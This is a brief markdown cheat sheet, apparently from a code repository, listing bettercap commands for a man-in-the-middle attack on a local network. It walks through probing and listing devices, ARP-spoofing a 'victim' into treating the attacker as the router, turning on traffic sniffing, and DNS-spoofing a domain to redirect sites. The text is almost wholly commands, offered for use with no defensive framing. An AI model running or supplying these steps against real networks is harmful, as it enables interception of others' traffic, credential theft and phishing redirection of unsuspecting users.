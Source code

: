 # ARP Spoofing

start bettercap

```
$ sudo bettercap
```

start locating the devices in the network

```bash
net.probe on
```

list all the devices on the network

```
net.show
```

- Let the victim think that it's talking to the router

```
set arp.spoof.targets <IP>

arp.spoof on
```

- Enable sniffer mode

```
net.sniff on
```


## Redirection of websites

```
net.sniff off
```

```
set dns.spoof.domains myamazon.com
```

```
dns.spoof on
```